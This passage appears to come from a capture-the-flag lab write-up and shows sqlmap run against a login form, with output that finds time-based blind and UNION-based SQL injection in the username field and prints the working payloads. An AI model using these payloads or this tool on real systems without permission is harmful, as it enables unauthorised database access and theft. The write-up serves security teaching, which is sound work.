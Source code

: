     uname=admin&password=password



Now I can pass that to `sqlmap`:



    oxdf@parrot$ sqlmap -r login.req
    ...[snip]...
    got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
    [13:11:24] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
    [13:11:24] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
    [13:11:24] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [13:11:35] [INFO] POST parameter 'uname' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
    [13:11:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [13:11:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [13:11:40] [INFO] target URL appears to be UNION injectable with 6 columns
    [13:11:41] [INFO] POST parameter 'uname' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    POST parameter 'uname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
    ---
    Parameter: uname (POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: uname=admin' AND (SELECT 7088 FROM (SELECT(SLEEP(5)))exRW) AND 'ensx'='ensx&password=password

        Type: UNION query
        Title: Generic UNION query (NULL) - 6 columns
        Payload: uname=admin' UNION ALL SELECT NULL,CONCAT(0x71717a7871,0x425661596272756b4b514b6256615342427047497762494465795943666c5051615368477176556d,0x716b627a71),NULL,NULL,NULL,NULL-- -&password=password
    ---
    ...[snip]...



The first line after the `...[snip]...` above shows it asking about the
redirect. By default, `sqlmap` will follow the redirect, and therefore
it will miss the union injection because the results don't show up in
the redirected page. If I accept the default there (or run with
`--batch`) it will only find the time-based injection, which is *really*
slow.

#### Database Enumeration

Now `sqlmap` can show what's in the DB. First list the databases (making
sure not to follow the redirect):
